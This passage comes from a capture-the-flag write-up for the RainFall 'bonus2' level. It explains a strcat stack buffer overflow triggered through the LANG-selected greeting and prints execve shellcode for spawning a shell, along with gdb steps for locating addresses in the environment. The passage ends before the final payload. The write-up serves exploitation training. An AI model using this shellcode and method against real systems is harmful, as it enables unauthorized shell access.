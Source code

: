 The buffer is filled with a greeting message depending on the `env_var` value.
We can guess that `env_var` is set to 0 by default.

## 4. Exploitation

We will try to exploit the buffer overflow vulnerability in the binary to execute a shell.
We will try to overflow the local buffer in the `greetuser` function to overwrite the EIP register.

We know that the buffer in `main` function is 72 bytes long (see above).
In the `greetuser` function, we use `strcpy` to fill the local buffer with a message, and `strcat` to append the user input to the buffer. So if the user input is longer than 72 bytes, we can overflow the local buffer.

There is 3 different message to concatenate to the user input:

- `Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4` -> `Hyvää päivää` -> 13 bytes
- `Goedemiddag!` -> 12 bytes
- `Hello` -> 5 bytes

We can use the `Hyvää päivää` message to fill the buffer, and then overflow it with the user input.

### 4.1. Find a adress to the shellcode

We want execute a shell (`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`).
With `gdb`, we set a breakpoint in the `main` just after the call to `LANG` environment variable.

We need to find the adress just after the call to `LANG` environment variable.
```bash
bonus2@RainFall:~$ gdb ./bonus2
(gdb) disass main
Dump of assembler code for function main:
    ...
   0x08048594 <+107>:	add    $0x28,%eax
   0x08048597 <+110>:	mov    %eax,(%esp)
   0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>
   0x0804859f <+118>:	movl   $0x8048738,(%esp)
   0x080485a6 <+125>:	call   0x8048380 <getenv@plt>
   0x080485ab <+130>:	mov    %eax,0x9c(%esp)
   0x080485b2 <+137>:	cmpl   $0x0,0x9c(%esp)
    ...
```
The address just after the call to `LANG` environment variable (`getenv`) is `0x080485ab`.
So we set a breakpoint at this address.
```bash
(gdb) break *0x080485ab
```
And we run the program:
```bash
(gdb) run teeeeest ccccccccccc
```
We use `info proc mappings` to examine the memory mappings, and the environment variables.
```bash
(gdb) info proc mappings
```
And we use the `x/20s` command to examine the string in the memory.
```bash
(gdb) x/20s *((char **)environ)
0xbffff91e:	 "SHELL=/bin/bash"
0xbffff92e:	 "TERM=xterm-256color"
0xbffff942:	 "SSH_CLIENT=10.0.2.2 33778 4242"
0xbffff961:	 "SSH_TTY=/dev/pts/0"
0xbffff974:	 "USER=bonus2"
    ...
0xbffffea1:	 "COLUMNS=114"
0xbffffead:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffefa:	 "MAIL=/var/mail/bonus2"
0xbfffff10:	 "_=/usr/bin/gdb"
```